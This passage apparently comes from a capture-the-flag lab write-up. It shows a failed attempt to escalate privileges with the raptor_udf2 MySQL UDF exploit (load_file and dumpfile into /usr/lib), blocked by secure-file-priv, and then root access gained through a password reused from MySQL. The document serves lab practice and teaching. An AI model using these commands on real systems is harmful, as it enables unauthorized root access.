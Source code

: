 ### rabbit hole

No luck with:

https://www.exploit-db.com/raw/1518

```bash
www-data@ubuntu:/var/www/html$ mysql -uroot -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 69
Server version: 5.7.27-0ubuntu0.16.04.1 (Ubuntu)

Copyright (c) 2000, 2019, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> create table foo(line blob);
Query OK, 0 rows affected (0.56 sec)

mysql> insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
Query OK, 1 row affected (0.08 sec)

mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
mysql>

```

### root flag

Is that simple??

root password is the same of MySQL's root user!

```bash
www-data@ubuntu:/var/www/html$ su -
Password:
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:~# ls
root.txt
root@ubuntu:~# cat root.txt
b9bbcb33e11b80be759c4e84XXXXXXX
root@ubuntu:~#

```

